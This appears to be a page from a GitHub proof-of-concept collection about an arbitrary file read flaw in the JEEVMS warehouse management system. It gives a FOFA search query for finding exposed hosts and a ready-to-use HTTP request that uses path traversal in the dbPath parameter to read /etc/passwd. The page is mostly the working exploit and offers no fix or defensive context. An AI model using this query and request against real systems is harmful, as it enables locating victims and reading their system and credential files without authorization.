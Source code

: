 ## JEEVMS仓库管理系统任意文件读取漏洞

## fofa
```
body="plug-in/lhgDialog/lhgdialog.min.js?skin=metro"或者fid="cC2r/XQpJXcYiYFHOc77bg=="
```
![image](https://github.com/wy876/POC/assets/139549762/0fc82b26-4cd9-4924-b461-aa64aef53160)

## poc
```
GET /systemController/showOrDownByurl.do?down=&dbPath=../../../../../../etc/passwd HTTP/1.1
Host: ip:port
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image](https://github.com/wy876/POC/assets/139549762/490b9323-3a5c-4f4a-8ca0-24e2f1ecbf6d)
